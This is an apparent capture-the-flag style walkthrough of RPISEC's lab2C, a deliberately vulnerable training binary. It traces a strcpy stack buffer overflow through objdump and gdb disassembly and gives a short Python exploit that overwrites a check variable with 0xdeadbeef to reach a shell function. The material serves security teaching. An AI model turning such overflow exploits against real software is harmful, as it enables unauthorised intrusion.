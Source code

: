 ### Solving lab2C "02/13 | --[ Memory Corruption Lab" (https://github.com/RPISEC/MBE/blob/master/src/lab02/lab2C.c)

### This lab is a simple buffer-overflow. The intention of this lab was to explore bof and get a shell from the lab machine and then get the flag. But here we won't have the shell part.

First we go get the source code and compile following the instruction that is commented in the code:

![comp](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/compilelab2ccode.png)

```
gcc -O0 -fno-stack-protector lab2C.c -o lab2C
```

Running the binary we see how to use it:

![usg](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/binusage.png)


Running with a string the binary shows that we are not "authenticated" and set_me is 0. It seems that the binary needs a specific string/password:

![auth](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/notauth.png)


Looking at the binary disassembly, we see that the **strcpy** function is called before a comparison of a memory address with the “0xdeadbeef” bytes. And if this comparison is not true, the flow jumps to the end, prints something and ends execution. But if the comparison is true, a "shell" function will be called.

```
$ objdump -dM intel lab2C | grep -A40 "<main>:"
```

![disas](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/jmp.png)


Looking at the disassembly of the shell function, we don't see much useful stuff, just a **puts** function that can display some string and we also see a **system** function being called.

```
$ objdump -dM intel lab2C | grep -A12 "<shell>:"
```

![disasshell](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/disasshell.png)


### Now let's debug the binary to see what it does


Looking at the disassembly with gdb + peda we can better see the execution flow of the main function:

![gdbdisas](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/gdbdisas.png)


Running the binary in gdb without passing any input string, the flow is diverted to a **printf** that shows the usage and then a jump throws the flow to the end of the execution:

* check input (**cmp DWORD PTR [rbp-0x24],0x2**)

![withoutarg1](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/withoutarg1.png)

* if not have input, print the usage

![withoutarg2](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/withoutarg2.png)

* jump to the end

![withoutarg3](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/withoutarg3.png)



### Since the binary needs an input let's set a breakpoint in the main and run binary with an input string...

```
gdb-peda$ b main
```
(breakpoint)

```
gdb-peda$ r GELEIA
```
(run binary with "GELEIA" string)


Now running with a input the exec flow throws us to another place. First compare if have any args, so **je** (jump equal) go to address **<main+59>**.

![witharg1](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/witharg1.png)


After some steps we arrive at the **strcpy** function that we saw before. We can see that the input is moved through the registers until it reaches the **strcpy** function. And probably the input is copied somewhere by the **strcpy** function. Soon after, a comparison of address **DWORD PTR [rbp-0x4]** with "0xdeadbeef" takes place.


![witharg2](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/witharg2.png)


After comparing if **DWORD PTR [rbp-0x4]** address is equal to "0xdeadbeef" the flow jump to "shell" function. If not equal the flow jump to a **printf** with a message "Not authenticated. set_me was 0" and finishe execution.


* jump to end

![witharg3](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/witharg3.png)


* print message and finishes

![witharg4](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/witharg4.png)



### Now is the Buffer Overflow

Knowing that the given input is stored somewhere, we can overwrite the memory after the input is stored so we can control what will be compared. If this works, we will bypass the check.

First we need to know how many bytes can be stored in the variable (or how much memory has been allocated to that variable). To do this, we will send a large number of bytes to the binary input and see how it handles that.

The input will be this: "AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEE". 

This way we can know how many bytes the variable stores and when there was a memory leak. For example, if the variable stores the value until the end of the letters "B", then we know that after the "B" the memory following the variable was overwritten.


### Let's go

First let's run the binary with gdb then set a breakpoint in main and then send the buffer to the binary like this: 

```
gdb-peda$ r $(echo 'AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEE')
```


Getting close to the part that checks the input we can see the alphabet buffer being moved through the registers

* first buffer go to **RAX** after go to **RDX**

![buffmove1](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/buffmove1.png)


![buffmove2](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/buffmove2.png)



Passing in **strcpy** function the buffer is stored and after this the address **DWORD PTR [rbp-0x4]** will be compared.

![compare1](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/compare1.png)


So if we look at what's at that address, we see the bytes that overwrote the memory after the leak:

![compare2](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/compare2.png)


Basically the variable that stores the input has a limit of 15 bytes. Example:

```
AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEE
|   1 to 15   ||       16 to 40        |
|_____________||_______________________|
this is stored  this overwrite the next memory

```

Knowing this we can overwrite the next memory (after 15 bytes) with the "0xdeadbeef" bytes and bypass the check. That way:

```
AAAAAAAABBBBBBB0xdeadbeef
```


### So let's go

Using a python code to make it easier, we will print the buffer and send it to the binary input. The exploit looks like this:

```py
import struct

buf = b''
buf += b'\x41' * 15
buf += struct.pack('<Q', 0xdeadbeef)

f = open("exp", "wb")
f.write(buf)
```

Running the exploit will send the buffer to a file called exp. And when we run the binary we will send the file contents to the input, like this:

```
gdb-peda$ r $(cat exp)
```

Then let's move on to the part that matters:

* we can see the exploration buffer being moved.

![exp1](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/exp1.png)


* Coming to the comparison, we see that the buffer overwrote the variable where it is stored and went to the memory of the next instruction.

![exp2](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/exp2.png)

![exp3](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/exp3.png)


* Since we have the memory overwritten, then the execution flow goes to the shell function as expected.

![exp4](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/exp4.png)

![exp5](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/exp5.png)



* Now we get to the shell function and see what's in it.

![exp6](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/exp6.png)


So it looks like we did this...

